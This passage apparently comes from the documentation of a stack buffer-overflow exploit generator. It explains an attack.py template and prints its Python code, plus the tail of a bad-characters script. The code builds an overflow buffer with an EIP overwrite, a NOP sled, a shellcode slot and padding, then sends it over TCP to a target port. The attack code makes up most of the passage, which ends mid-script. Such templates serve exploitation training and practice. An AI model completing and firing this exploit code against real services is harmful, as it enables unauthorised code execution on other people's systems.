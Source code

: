 ```python
    "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
    "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = "A"*len_overflow + eip + badchars

print('Trying to send %s bytes buffer...' % (str(len(buffer))))
try:
    s.connect(('host.example.tld', 4444))
    s.send(str2b('' + buffer + ''))
    print('done')
except:
    print('Could not connect')
s.close()
```


#### `attack.py`

In this script everything comes together and you can:
1. Adjust the overflow length
2. Adjust the nop sled length
3. Set EIP address
4. Add shellcode
5. Add padding

There is also not much to write, as you just need to fill variables and most other stuff is simply
auto-calculated.
```python
#!/usr/bin/env python
"""fuzza autogenerated."""

from __future__ import print_function
import socket

def str2b(data):
    """Unescape P2/P3 and convert to bytes if Python3."""
    # Python2: Unescape control chars
    try:
        return data.decode('string_escape')
    except AttributeError:
        pass
    except UnicodeDecodeError:
        pass
    # Python3: Unescape control chars and convert to byte
    try:
        return data.encode("utf-8").decode('unicode-escape').encode("latin1")
    except UnicodeDecodeError:
        pass

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

len_total    = 300                # Start at len_overflow and try out how much can be overwritten
len_overflow = 296                # Use pattern_create.rb and pattern_offset.rb to find exact offset
len_nop_sled = 0                   # Add x bytes of nops before shellcode for shellcode decoding
eip          = "\x42\x42\x42\x42"  # Change this (Keep in mind to put address in reverse order)
shellcode    = ""

padding = "C"*(len_total - len_overflow - len(str(eip)) - len_nop_sled - len(shellcode))
buffer  = "A"*len_overflow + eip + "\x90"*len_nop_sled + shellcode + padding

print('Trying to send %s bytes buffer...' % (str(len(buffer))))
try:
    s.connect(('host.example.tld', 4444))
```